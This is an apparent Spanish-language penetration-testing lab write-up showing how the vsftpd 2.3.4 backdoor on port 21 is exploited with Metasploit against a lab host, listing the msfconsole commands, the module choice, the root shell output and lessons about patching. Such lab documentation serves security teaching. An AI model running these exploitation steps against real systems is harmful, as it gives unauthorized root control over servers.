


## Paso 5: Explotación con Metasploit 
### 5.1 ¿Qué es Metasploit?
Metasploit Framework es una plataforma de código abierto desarrollada por Rapid7 que permite desarrollar, probar y ejecutar exploits contra sistemas objetivo. Es la herramienta más utilizada en pruebas de penetración a nivel profesional. 

--- 
### 5.2 Explotación del puerto 21 — vsftpd 2.3.4 Backdoor 
Habiendo confirmado que el puerto 21 tiene una backdoor, procedemos a explotarla. Abrimos Metasploit desde la terminal: 
```bash 
msfconsole 
``` 
Una vez dentro, buscamos el módulo correspondiente a vsftpd: 
```bash 
search vsftpd 
``` 

 

Se encuentran dos módulos: 

|**#**|**Módulo**|**Tipo de Vulnerabilidad**|**Rank**|
|---|---|---|---|
|**0**|`exploit/unix/ftp/vsftpd_232`|Denegación de servicio (DoS)|Normal|
|**1**|`exploit/unix/ftp/vsftpd_234_backdoor`|Ejecución de Backdoor (Acceso Root)|**Excellent**|

Seleccionamos el módulo número 1: 
```bash 
use 1 
``` 
Verificamos los parámetros requeridos: 
```bash
show options
``` 


 

El exploit requiere configurar únicamente **RHOSTS** ya que **RPORT** viene configurado por defecto en el puerto 21: 
```bash
set RHOSTS 192.168.122.79 
``` 
Ejecutamos el exploit: 
```bash 
run 
``` 

--- 
### 5.3 Resultado de la explotación
``` 
Banner: 220 (vsFTPd 2.3.4) ← Confirmó la versión vulnerable Backdoor service has been spawned ← Backdoor activada exitosamente 
UID: uid=0(root) gid=0(root) ← Acceso obtenido como ROOT 
Command shell session 1 opened ← Control total del sistema 
``` 


 > 🔴 **uid=0(root)** significa acceso como administrador máximo del sistema. En un entorno real esto permitiría al atacante leer, modificar, eliminar o exfiltrar cualquier archivo del servidor, instalar software malicioso y comprometer completamente el sistema. 

--- 
### 5.4 Lecciones aprendidas 
- Un servicio desactualizado puede comprometer un sistema completo en segundos 
- El reconocimiento previo con Nmap es fundamental para identificar el vector de ataque correcto
- Priorizar vulnerabilidades por facilidad de explotación e impacto optimiza el tiempo en un pentest 
- Mantener los servicios actualizados es una de las defensas más efectivas y simples